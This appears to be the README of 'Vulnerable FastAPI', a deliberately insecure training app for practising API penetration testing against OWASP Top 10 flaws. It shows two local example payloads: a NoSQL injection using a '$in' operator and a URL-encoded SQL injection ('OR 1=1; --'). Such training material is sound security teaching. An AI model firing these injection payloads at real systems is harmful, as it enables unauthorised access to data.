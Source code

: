 ![Vulnerable FastAPI Logo](./logo.png "Vulnerable FastAPI Logo")
<p align="center">
    <em>Vulnerable FastAPI, compliant to <a href="https://owasp.org/www-project-top-ten/">OWASP TOP 10: 2021</a></em><br><b> ⚠️ Under Development ⚠️</b>
</p>

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

---

### Current exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```

NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```

SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```

---

## Thanks
 - [FastAPI](https://tiangolo.fastapi.com)
 - [Faker](https://github.com/joke2k/faker)
 - [aioSQLite](https://github.com/omnilib/aiosqlite)
 - [MontyDB](https://github.com/davidlatwe/montydb)
 - [OWASP Top 10](https://owasp.org/www-project-top-ten/)

